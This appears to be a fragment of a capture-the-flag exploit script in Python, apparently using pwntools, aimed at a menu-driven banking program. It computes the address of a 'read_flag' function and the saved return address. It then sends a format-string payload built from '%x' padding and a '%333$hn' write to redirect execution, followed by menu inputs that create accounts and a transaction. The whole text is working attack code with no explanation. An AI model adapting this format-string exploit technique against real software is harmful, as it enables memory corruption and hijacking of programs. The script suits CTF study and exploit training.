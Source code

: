 ```python
# program_base = 0x56555000
saved_eip = ebp + 4
read_flag = program_base + e.symbols['_Z9read_flagv']
# print([hex(x) for x in addrs])
print("ebp: ", hex(ebp) )
print("program_base: ", hex(program_base))
print("read_flag: ", hex(read_flag & 0xfff))

# writing time

p.sendline('2')
recv_input()

# creating user to leak esp

base = '%{}$hn'.format(333)

pad = "%{}x".format((read_flag & 0xffff) - 0x15)
p.sendline(pad + base)
recv_input()
p.sendline('1')
recv_input()
p.sendline('2')
recv_input()
p.sendline('2')
recv_input()


# log in
p.sendline('1')
recv_input()
p.sendline('2')
recv_input()
p.sendline('2')
recv_input()

# create account 1

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

# create account 2

p.sendline('1')
recv_input()
p.sendline('1')
recv_input()

p.sendline('a')

# make transaction

p.sendline('2')
recv_input()

p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
p.sendline(str(account_id_counter))
account_id_counter += 1
recv_input()
```